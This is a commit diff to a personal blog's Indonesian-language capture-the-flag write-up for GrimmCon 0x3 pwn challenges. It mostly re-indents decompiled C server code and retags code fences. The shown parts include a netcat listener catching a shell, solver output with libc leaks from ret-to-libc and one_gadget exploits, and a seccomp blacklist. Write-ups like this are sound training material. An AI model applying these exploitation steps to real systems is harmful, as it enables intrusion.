

Before and after one commit to abdullahnz/abdullahnz.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1103 px high. Shown: the top 1059 px of the window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Adding all files

````diff
--- a/_posts/2020-12-31-writeup-grimmcon-0x3-ctf.md
+++ b/_posts/2020-12-31-writeup-grimmcon-0x3-ctf.md
@@ -6,6 +6,8 @@
   - WriteUp
   - PWN
 ---
+
+Tulisan ini akan menjadi sebuah *remainder* perjalanan saya *mungkin* selama setengah tahun lebih saya mulai masuk ke-dunia CTF, hingga men-*juara*-i event - event CTF di tingkat Pelajar. Mengingat tahun depan sudah mulai masuk universitas, *nugad*, *nugad*, dan *nugad*. ~
 
 ![Banner Intro](https://raw.githubusercontent.com/abdullahnz/abdullahnz.github.io/master/_posts/images/grimmcon/intro.png)
 
@@ -34,22 +36,22 @@
 
     if ( argc <= 1 )
     {
-    fwrite("Not enough arguments.\n", 1uLL, 0x16uLL, _bss_start);
-    fwrite("Usage: ./stacked [port]\n", 1uLL, 0x18uLL, _bss_start);
-    exit(1);
+        fwrite("Not enough arguments.\n", 1uLL, 0x16uLL, _bss_start);
+        fwrite("Usage: ./stacked [port]\n", 1uLL, 0x18uLL, _bss_start);
+        exit(1);
     }
     v13 = atoi(argv[1]);
     fd = socket(2, 1, 0);
     if ( fd == -1 )
     {
-    fwrite("Failed to create socket.\n", 1uLL, 0x19uLL, _bss_start);
-    exit(1);
+        fwrite("Failed to create socket.\n", 1uLL, 0x19uLL, _bss_start);
+        exit(1);
     }
     optval = 1;
     if ( setsockopt(fd, 1, 2, &optval, 4u) < 0 )
     {
-    fwrite("Error setting socket options.\n", 1uLL, 0x1EuLL, _bss_start);
-    exit(1);
+        fwrite("Error setting socket options.\n", 1uLL, 0x1EuLL, _bss_start);
+        exit(1);
     }
     bzero(&s, 0x10uLL);
     s = 2;
@@ -57,25 +59,25 @@
     v7 = htons(v13);
     if ( bind(fd, (const struct sockaddr *)&s, 0x10u) )
     {
-    fwrite("Failed to bind socked.\n", 1uLL, 0x17uLL, _bss_start);
-    exit(1);
+        fwrite("Failed to bind socked.\n", 1uLL, 0x17uLL, _bss_start);
+        exit(1);
     }
     if ( listen(fd, 5) )
     {
-    fwrite("Failed to listen.\n", 1uLL, 0x12uLL, _bss_start);
-    exit(1);
+        fwrite("Failed to listen.\n", 1uLL, 0x12uLL, _bss_start);
+        exit(1);
     }
     fprintf(_bss_start, "Listening on port %d...\n", (unsigned int)v13, argv);
     addr_len = 16;
     while ( 1 )
     {
-    v11 = accept(fd, &addr, &addr_len);
-    v3 = inet_ntoa(*(struct in_addr *)&addr.sa_data[2]);
-    fprintf(_bss_start, "Received connection from: %s\n", v3);
-    v10 = fork();
-    if ( !v10 )
-        break;
-    close(v11);
+        v11 = accept(fd, &addr, &addr_len);
+        v3 = inet_ntoa(*(struct in_addr *)&addr.sa_data[2]);
+        fprintf(_bss_start, "Received connection from: %s\n", v3);
+        v10 = fork();
+        if ( !v10 )
+            break;
+        close(v11);
     }
     handle_client(v11);
     close(v11);
@@ -153,7 +155,7 @@
 
 profit.
 
-```
+```py
 $ nc -vlp 4444
 Listening on [0.0.0.0] (family 0, port 4444)
 Connection from localhost 57362 received!
@@ -174,11 +176,11 @@
 
 ## Patches Revenge [500pts]
 
-Libc diberikan, berarti perlu *leak-meleak* disini.
+Libc diberikan, berarti perlu *leak-meleak* disini. dan *mungkin* ret-to-libc (?)
 
 ### Main Function
 
-Hanya singkat, write dan read.
+Sangat singkat, write dan read. Dan ada bof di read.
 
 ```c
 int __cdecl main(int argc, const char **argv, const char **envp)
@@ -262,7 +264,7 @@
 
 ret-to-libc for profil.
 
-```
+```py
 $ python solver.py 31322
 [*] '/home/abdullahnz/ctf/grimmcon/pwn/patches/patches'
     Arch:     amd64-64-little
@@ -348,7 +350,7 @@
 
 Karena overflow hanya 24 byte, dan 16 byte untuk canary dan padding. Jadi untuk rop sendiri itu hanya 8 byte. Jadi, ret-to-libc dengan system disini tidak bisa dilakukan. Karena harus set parameter dulu yang butuh minimal 24 bytes.
 
-Nah, karena versi libc yang dipakai server itu 2.27. Spray one_gadget disini bisa dilakukan. Fyi, semenjak saya masuk di libc.2.31, one_gadget hook tidak bisa dilakukan :'(.
+Nah, karena versi libc yang dipakai server itu 2.27. Spray one_gadget disini bisa dilakukan. FYI, semenjak saya masuk di libc.2.31, one_gadget hook tidak bisa dilakukan :'(.
 
 Full solver,
 
@@ -396,7 +398,7 @@
 
 Run and got the flag~.
 
-```
+```py
 $ python solver.py 30824
 [+] Opening connection to challenge.ctf.games on port 30824: Done
 [*] leak 0x7fec3b993f70
@@ -430,7 +432,7 @@
 
 Blacklist syscall numbers.
 
-```
+```py
     line  CODE  JT   JF      K
     =================================
     0000: 0x20 0x00 0x00 0x00000004  A = arch
@@ -802,7 +804,7 @@
 
 This chall, only 1 team solve this lol. Yeah its me lol.
 
-```
+```py
 [+] Opening connection to challenge.ctf.games on port 31213: Done
 [*] leak 0x7f6fb0456ca0
 [*] libc 0x7f6fb006b000
````
Also changed, not shown: other parts of _posts/2020-12-31-writeup-grimmcon-0x3-ctf.md (+4 -4 lines).
